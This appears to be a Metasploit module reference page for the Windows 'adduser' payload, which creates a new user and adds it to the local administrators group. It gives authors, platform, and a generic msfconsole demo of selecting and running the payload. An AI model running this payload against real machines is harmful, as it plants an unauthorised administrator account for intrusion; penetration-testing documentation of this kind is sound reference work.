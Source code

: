 ## Windows Execute net user /ADD

Create a new user and add them to local administration 
group. Note: The specified password is checked for common 
complexity requirements to prevent the target machine 
rejecting the user for failing to meet policy requirements. 
Complexity check: 8-14 chars (1 UPPER, 1 lower, 1 
digit/special)


## Module Name
payload/windows/adduser

## Authors
* hdm
* Chris John Riley
* vlad902
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/adduser
msf payload(adduser) > show targets
   ... a list of targets ...
msf payload(adduser) > set TARGET <target-id>
msf payload(adduser) > show options
   ... show and set options ...
msf payload(adduser) > run
```
    
    
